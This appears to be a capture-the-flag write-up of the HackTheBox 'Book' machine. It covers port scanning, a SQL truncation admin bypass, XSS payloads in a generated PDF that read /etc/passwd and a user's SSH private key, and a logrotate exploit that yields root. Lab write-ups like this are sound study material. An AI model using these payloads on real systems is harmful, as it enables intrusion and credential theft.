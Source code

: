 # BOOK

## NMAP

```bash
┌──(kali㉿kali)-[~/Downloads/hackthebox/book]
└─$ nmap 10.10.10.176
Starting Nmap 7.91 ( https://nmap.org ) at 2021-11-09 05:18 EST
Nmap scan report for 10.10.10.176
Host is up (0.27s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 54.24 seconds
                                                                                                                                                                                                              
┌──(kali㉿kali)-[~/Downloads/hackthebox/book]
└─$ nmap 10.10.10.176 -p 22,80 -A                                                                 255 ⨯
Starting Nmap 7.91 ( https://nmap.org ) at 2021-11-09 05:20 EST
Nmap scan report for 10.10.10.176
Host is up (0.27s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f7:fc:57:99:f6:82:e0:03:d6:03:bc:09:43:01:55:b7 (RSA)
|   256 a3:e5:d1:74:c4:8a:e8:c8:52:c7:17:83:4a:54:31:bd (ECDSA)
|_  256 e3:62:68:72:e2:c0:ae:46:67:3d:cb:46:bf:69:b9:6a (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: LIBRARY - Read | Learn | Have Fun
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## WEBSITE

![](https://github.com/Leo-2807/Writeups/blob/main/images/book1.png)

### SIGN IN

Since we do not have creds to log in, I used sign up to create a user `test` and logged in as test.

![](https://github.com/Leo-2807/Writeups/blob/main/images/book2.png)

![](https://github.com/Leo-2807/Writeups/blob/main/images/book3.png)

But there was nothing else to be done. After wasting some time going down rabbit holes, I was back to the sign up page. 

Running gobuster I found `/admin` login page.

![](https://github.com/Leo-2807/Writeups/blob/main/images/book6.png)

The creds that I created does not work here.

## ADMIN LOGIN

Getting back to the sign up page I looked through the source code, and found something interesting.

```php
<script>
  if (document.location.search.match(/type=embed/gi)) {
    window.parent.postMessage("resize", "*");
  }
function validateForm() {
  var x = document.forms["myForm"]["name"].value;
  var y = document.forms["myForm"]["email"].value;
  if (x == "") {
    alert("Please fill name field. Should not be more than 10 characters");
    return false;
  }
  if (y == "") {
    alert("Please fill email field. Should not be more than 20 characters");
    return false;
  }
}
</script>
```

After a long google search and a hint from the forum I found the `sql truncation atack`. 

```
SQL truncation is a web application vulnerability in which an input is truncated (deleted) when added to the database due to surpassing the maximum defined length.
```

Here's a [article](https://medium.com/r3d-buck3t/bypass-authentication-with-sql-truncation-attack-25a0c33ab87f) which explains it further.

Opening burpsuite I intercepted the request and modified it.

![](https://github.com/Leo-2807/Writeups/blob/main/images/book8.png)

Now replace the + with spaces and url encode it.

![](https://github.com/Leo-2807/Writeups/blob/main/images/book4.png)

Now we can login to the admin login page.

![](https://github.com/Leo-2807/Writeups/blob/main/images/book9.png)

![](https://github.com/Leo-2807/Writeups/blob/main/images/book5.png)

## LFI

Opening the collections page we have two pdf files. They have tables of users and the books.  

![](https://github.com/Leo-2807/Writeups/blob/main/images/book7.png)

Searching for `pdf lfi exploit` on google led me to a interesting [exploit](https://blog.noob.ninja/local-file-read-via-xss-in-dynamically-generated-pdf/)

![](https://github.com/Leo-2807/Writeups/blob/main/images/book10.png)

To try this exploit I went to the non admin user and I created since the collection page there had a upload form.

In there instead of book title I wrote my payload and uploaded a empty pdf file.

```php
<script>x=new XMLHttpRequest;x.onload=function(){document.write(this.responseText)};x.open("GET","file:///etc/passwd");x.send();</script>
```

![](https://github.com/Leo-2807/Writeups/blob/main/images/book11.png)

And this time on opening the collections pdf we get the contents of the `/etc/passwd` file.

![](https://github.com/Leo-2807/Writeups/blob/main/images/book12.png)

## SSH

From the `/etc/passwd` file we know that `reader` is the only interactive user, I tried to get the ssh private key.

```php
<script>x=new XMLHttpRequest;x.onload=function(){document.write(this.responseText)};x.open("GET","file:///home/reader/.ssh/id_rsa");x.send();</script>
```

And we got it.

![](https://github.com/Leo-2807/Writeups/blob/main/images/book13.png)

 Now we can ssh into the box as user reader and read the user.txt.

```bash
┌──(kali㉿kali)-[~/Downloads/hackthebox/book]
└─$ ssh -i id_rsa reader@10.10.10.176
Welcome to Ubuntu 18.04.2 LTS (GNU/Linux 5.4.1-050401-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Tue Nov  9 13:02:22 UTC 2021

  System load:  0.02              Processes:             212
  Usage of /:   52.7% of 5.77GB   Users logged in:       0
  Memory usage: 12%               IP address for ens160: 10.10.10.176
  Swap usage:   0%


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

109 packages can be updated.
0 updates are security updates.

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings



The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

Last login: Wed Jan 29 13:03:06 2020 from 10.10.14.3
reader@book:~$ id
uid=1000(reader) gid=1000(reader) groups=1000(reader)
reader@book:~$ ls
backups  user.txt
```

## PRIVESEC

There are two log files inside backups directory but they do not have anything interesting in them.

```bash
reader@book:~$ cd backups/
reader@book:~/backups$ ls
access.log  access.log.1
reader@book:~/backups$ cat access.log
reader@book:~/backups$ cat access.log.1
192.168.0.104 - - [29/Jun/2019:14:39:55 +0000] "GET /robbie03 HTTP/1.1" 404 446 "-" "curl"
```

I ran a few privesec scripts among them pspy gave some interesting results.

```bash
2021/11/09 13:17:28 CMD: UID=0    PID=60385  | sleep 5 
2021/11/09 13:17:33 CMD: UID=0    PID=60386  | /bin/sh /root/log.sh 
2021/11/09 13:17:33 CMD: UID=0    PID=60387  | /usr/sbin/logrotate -f /root/log.cfg 
2021/11/09 13:17:33 CMD: UID=0    PID=60388  | sleep 5 
2021/11/09 13:17:38 CMD: UID=0    PID=60389  | /bin/sh /root/log.sh 
2021/11/09 13:17:38 CMD: UID=0    PID=60391  | sleep 5 
```

This is being repeated every 5 seconds.

On googling about logrotate privesec I found this [article](https://book.hacktricks.xyz/linux-unix/privilege-escalation).

```
Logrotate is a Linux program that manages log files and compresses them for backups and analysis. It runs automatically through the Cron utility.
```

There was a link to a gothub [exploit](https://github.com/whotwagner/logrotten).

I downloaded the script on the target machine and compiled it.

I wrote a simple script to read the root.txt file.

```bash
reader@book:~$ echo "cat /root/root.txt > /home/reader/root.txt" > payloadfile
...snip...
reader@book:~$ echo "hello"> backups/access.log; ./logrotten -p ./payloadfile /home/reader/backups/access.log
Waiting for rotating /home/reader/backups/access.log...
Renamed /home/reader/backups with /home/reader/backups2 and created symlink to /etc/bash_completion.d
Waiting 1 seconds before writing payload...
Done!
reader@book:~$ ls
backups  logrotten logrotten.c  payloadfile root.txt user.txt
```

It took a few tries but I got the root.txt. 